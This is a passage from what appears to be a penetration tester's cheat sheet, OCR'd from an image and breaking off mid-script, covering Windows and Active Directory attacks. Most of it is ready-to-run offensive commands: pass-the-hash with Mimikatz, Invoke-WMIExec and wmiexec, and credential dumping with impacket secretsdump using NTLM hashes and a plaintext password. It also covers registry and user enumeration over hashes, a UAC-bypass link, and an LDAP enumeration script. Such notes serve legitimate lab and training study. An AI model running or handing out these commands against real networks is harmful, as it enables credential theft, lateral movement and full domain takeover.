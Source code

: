             SSH connect:  ssh -o GSSAPIAuthentication=yes user@domain.local -vv; cp user.ccache /tmp/krb5cc_1045; ssh -o GSSAPIAuthentication=yes user@domain.local
        From Windows:
            Mimikatz:  privilege::debug; sekurlsa::pth /user:Administrator /domain:ignite.local /ntlm:32196B56FFE6F45E294117B91A83BF38 [/run:powershell.exe]
            Powershell:  Invoke-WMIExec -Target 192.168.1.105 -Domain ignite -Username Administrator -Hash 32196B56FFE6F45E294117B91A83BF38 -Command "cmd /c mkdir c:\hacked" -Verbose
            CMD:  wmiexec.exe -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
    Other PTH Techniques:
        LDAP:  https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
        Generate Kerberos Ticket > follow-on attacks - https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
            -Mount SMB Share
            -Use Kerberos ticket to SSH to Linux box
        Read/Modify Registry:
            python3 reg.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105 query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
        Enum Users:  python3 lookupsid.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105  \\  python3 samrdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105

    Other Credential Methods:
        UAC Bypass:  https://github.com/k4sth4/UAC-bypass
        Impersonation/elevation:  runas /user:domain\username cmd.exe
        Powershell Invoke-Command:
            With creds, running powershell as a user (using a credential object and invoke-command) (ex. https://0xdf.gitlab.io/2020/04/25/htb-control.html)
            $password=ConvertTo-SecureString "PlainTextPassword" -AsPlainText -Force
            $cred=New-Object System.Management.Automation.PSCredential("username",$password)
            Invoke-Command -ComputerName Server01 -Credential $cred -ScriptBlock { Get-Culture }
        Enumeration:
            Secretsdump:
                python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm egotisticalbank/svc_loanmgr@10.10.10.175
                With Creds/Hash:
                    python3 secretsdump.py ituser@10.0.0.40 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
                    python3 secretsdump.py svc-alfresco:s3rvice@10.10.10.161  
  
### Active Directory:
  
      Enumeration:
          net user
          net user /domain
          net user jeff_admin /domain  -> check groups
          net group /domain
        
        Modern approach using LDAP://HostName[:PortNumber][/DistinguishedName]:
        hostname: in PS:  [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
        **PS Script that collects all users and their attributes:
            $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
            $PDC = ($domainObj.PdcRoleOwner).Name
            $SearchString = "LDAP://"
            $SearchString += $PDC + "/"
            $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
            $SearchString += $DistinguishedName
            $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
            $objDomain = New-Object System.DirectoryServices.DirectoryEntry
            $Searcher.SearchRoot = $objDomain
            $Searcher.filter="samAccountType=805306368"
            $Result = $Searcher.FindAll()
            Foreach($obj in $Result)
            {
             Foreach($prop in $obj.Properties)